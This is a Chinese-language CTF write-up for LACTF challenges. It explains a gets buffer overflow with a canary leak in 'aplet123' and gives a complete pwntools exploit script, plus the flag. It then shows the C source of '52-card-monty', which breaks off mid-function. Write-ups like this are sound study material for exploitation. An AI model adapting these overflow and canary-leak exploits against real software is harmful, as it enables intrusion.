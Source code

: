 有開 canary 沒 PIE

gets 的地方有 bof 漏洞，可以先用 `strstr(input, "i'm")` 那邊偽造足夠長的字串再串上 `i'm` 的字串來 leak 後面的資料，也就能 leak canary

後面就是一般的 bof jump `print_flag`

`solve.py`
```python
from pwn import *
binary = "./aplet123"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("chall.lac.tf", 31123)
# conn = process(binary)
# conn = gdb.debug(binary, "b *0x00000000004012f8\n")

conn.sendlineafter(b"hello\n", b"A"*0x40 + b"i'm".rjust(0x8, b"A"))
conn.recvuntil(b"hi ")
canary = u64(conn.recvuntil(b"\x01, i'm", drop=True).rjust(0x8, b"\x00"))
print(f"canary: {hex(canary)}")

# 00000000004011e6   123 FUNC    GLOBAL DEFAULT   14 print_flag
printflag = 0x00000000004011e6
conn.sendlineafter(b"aplet123\n", b"A"*0x48 + p64(canary) + b"A"*0x8 + p64(printflag))

conn.sendline(b"bye")

conn.interactive()
```

`lactf{so_untrue_ei2p1wfwh9np2gg6}`

### 52-card-monty
`monty.c`
```clike
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define DECK_SIZE 0x52
#define QUEEN 1111111111

void win() {
  char flag[256];

  FILE *flagfile = fopen("flag.txt", "r");

  if (flagfile == NULL) {
    puts("Cannot read flag.txt.");
  } else {
    fgets(flag, 256, flagfile);
    flag[strcspn(flag, "\n")] = '\0';
    puts(flag);
  }
}

void game() {
  int index;
  long leak;
  long cards[52] = {0};
  char name[20];

```
